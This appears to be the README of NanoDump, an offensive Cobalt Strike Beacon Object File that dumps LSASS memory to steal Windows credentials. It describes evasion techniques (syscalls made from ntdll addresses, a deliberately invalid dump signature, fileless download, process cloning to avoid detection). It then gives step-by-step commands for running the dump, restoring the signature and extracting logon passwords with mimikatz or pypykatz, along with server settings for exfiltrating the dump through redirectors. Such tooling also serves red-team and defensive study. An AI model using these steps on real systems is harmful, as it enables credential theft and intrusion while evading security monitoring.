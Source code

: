 # NanoDump

A Beacon Object File that creates a minidump of the LSASS process.

![screenshot](demo.png)

### Features
- It uses syscalls (with [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)) for most operations
- Syscalls are called from an *ntdll* address to bypass some syscall detections
- You can choose to download the dump without touching disk or write it to a file
- The minidump by default has an invalid signature to avoid detection
- It reduces the size of the dump by ignoring irrelevant DLLs. The (nano)dump tends to be arround 10 MB in size
- You don't need to provide the PID of LSASS
- No calls to *dbghelp* or any other library are made, all the dump logic is implemented in nanodump
- You can use the .exe version to run *nanodump* outside of Cobalt Strike :smile:

## Usage

### Clone

```bash
git clone https://github.com/helpsystems/nanodump.git
```

### Compile (optional)

```bash
cd nanodump
make
```

### Import

Import the `NanoDump.cna` script on Cobalt Strike.


### Run

Run the `nanodump` command.

```
beacon> nanodump
```

### Restore the signature
Once you downloaded the minidump, restore the invalid signature
```zsh
bash restore_signature.sh <dumpfile>
```

### get the secretz

#### mimikatz
To get the secrets simply run:
```
mimikatz # sekurlsa::minidump <dumpfile>
mimikatz # sekurlsa::logonPasswords full
```

#### pypykatz
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

## Parameters

#### --pid -p < PID > (optional)
PID of lsass. If not entered, nanodump will find it dynamically.

#### --write -w < path > (optional)
Where to write the dumpfile. If this parameter is not provided, the dump will be downloaded in a fileless manner.

#### --valid -v (optional)
If entered, the minidump will have a valid signature.  
If not entered, before analyzing the dump restore the signature of the dump, with: `bash restore_signature.sh <dumpfile>`  

#### --clone -c (optional)
If selected alongside a provided PID, nanodump will first create a handle to the target process with `PROCESS_CREATE_PROCESS` access, before spawning a 'clone' of the process. This new instance of the process will then be the target for memory dumping. While this will result in a new process creation, it removes the need to initially create a handle to lsass with `PROCESS_VM_READ`, which may trigger detection.

## HTTPS redirectors
If you are using an HTTPS redirector (as you should), you might run into issues due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
